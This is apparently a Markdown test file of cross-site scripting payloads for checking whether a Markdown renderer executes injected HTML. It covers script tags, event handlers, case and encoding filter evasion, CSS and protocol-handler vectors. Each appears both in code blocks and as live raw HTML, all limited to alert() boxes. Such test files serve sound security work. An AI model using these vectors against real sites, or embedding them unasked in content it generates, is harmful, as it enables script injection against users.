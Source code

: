 # XSS Attack Examples

This document showcases various XSS (Cross-Site Scripting) attack vectors for security testing purposes.

If you see an alert box at any point, the client application is vulnerable to XSS attacks through Markdown documents.


### Basic Script Injection

```html
<script>alert('Basic XSS')</script>
```

<script>alert('Basic XSS')</script>

### Event Handler Injection

#### Image with onerror script

```html
<img src="x" onerror="alert('Image onerror XSS')">
```

<img src="x" onerror="alert('Image onerror XSS')">

#### Input with onmouseover script

```html
<input type="text" onmouseover="alert('Mouseover XSS')">
```
<input type="text" onmouseover="alert('Mouseover XSS')">

#### Div with onload script

```html
<div onload="alert('onload XSS')">
```

<div onload="alert('onload XSS')">

### Filter Evasion Techniques

#### Case Variation

```html
<ScRiPt>alert('Case Variation XSS')</ScRiPt>
<SCRIPT>alert('Case Variation XSS')</SCRIPT> 
```

<ScRiPt>alert('Case Variation XSS')</ScRiPt>
<SCRIPT>alert('Case Variation XSS')</SCRIPT> 

#### HTML Encoding Bypass

<script>alert(&#x27;xss&#x27;)</script>
<script>alert(&apos;xss&apos;)</script>

```html
<script>alert(&#x27;xss&#x27;)</script>
<script>alert(&apos;xss&apos;)</script>
```

#### JavaScript String Encoding

```html
<script>alert(String.fromCharCode(120,115,115))</script>
```

<script>alert(String.fromCharCode(120,115,115))</script>

#### Alternative Tags

```html
<svg onload="alert('Alternative Tags XSS')">
<iframe src="javascript:alert('Alternative Tags XSS')">
<embed src="javascript:alert('Alternative Tags XSS')">
<object data="javascript:alert('Alternative Tags XSS')">
```

<svg onload="alert('Alternative Tags XSS')">
<iframe src="javascript:alert('Alternative Tags XSS')">
<embed src="javascript:alert('Alternative Tags XSS')">
<object data="javascript:alert('Alternative Tags XSS')">

### Event Handler Variations

```html
<body onload="alert('Event handler XSS')"></body>
<input type="image" src="x" onerror="alert('Event handler XSS')">
<isindex type="image" src="x" onerror="alert('Event handler XSS')">
<marquee onstart="alert('xss')"></marquee>
<select onfocus="alert('Event handler XSS')" autofocus></select>
<textarea onfocus="alert('Event handler XSS')" autofocus></textarea>
<keygen onfocus="alert('Event handler XSS')" autofocus></keygen>
```

<body onload="alert('Event handler XSS')"></body>
<input type="image" src="x" onerror="alert('Event handler XSS')">
<isindex type="image" src="x" onerror="alert('Event handler XSS')">
<marquee onstart="alert('xss')"></marquee>
<select onfocus="alert('Event handler XSS')" autofocus></select>
<textarea onfocus="alert('Event handler XSS')" autofocus></textarea>
<keygen onfocus="alert('Event handler XSS')" autofocus></keygen>

### CSS-Based XSS

```html
<style>
@import 'javascript:alert("CSS-Based XSS")';
</style>

<div style="background-image: url(javascript:alert('CSS-Based XSS'))">

<link rel="stylesheet" href="javascript:alert('CSS-Based XSS')">
```

<style>
@import 'javascript:alert("CSS-Based XSS")';
</style>

<div style="background-image: url(javascript:alert('CSS-Based XSS'))">

<link rel="stylesheet" href="javascript:alert('CSS-Based XSS')">

### Protocol Handler XSS

```html
<a href="javascript:alert('Protocol Handler XSS')">Click me</a>
<a href="data:text/html,<script>alert('Protocol Handler XSS')</script>">Click me</a>
<a href="vbscript:msgbox('Protocol Handler XSS')">Click me</a>
```

<a href="javascript:alert('Protocol Handler XSS')">Click me</a>
<a href="data:text/html,<script>alert('Protocol Handler XSS')</script>">Click me</a>
<a href="vbscript:msgbox('Protocol Handler XSS')">Click me</a>

```markdown
[click me](javascript:alert('Protocol Handler XSS'))
![](javascript:alert('Protocol Handler XSS'))
```
[click me](javascript:alert('ProtocolHandlerXSS'))
![](javascript:alert('ProtocolHandlerXSS'))


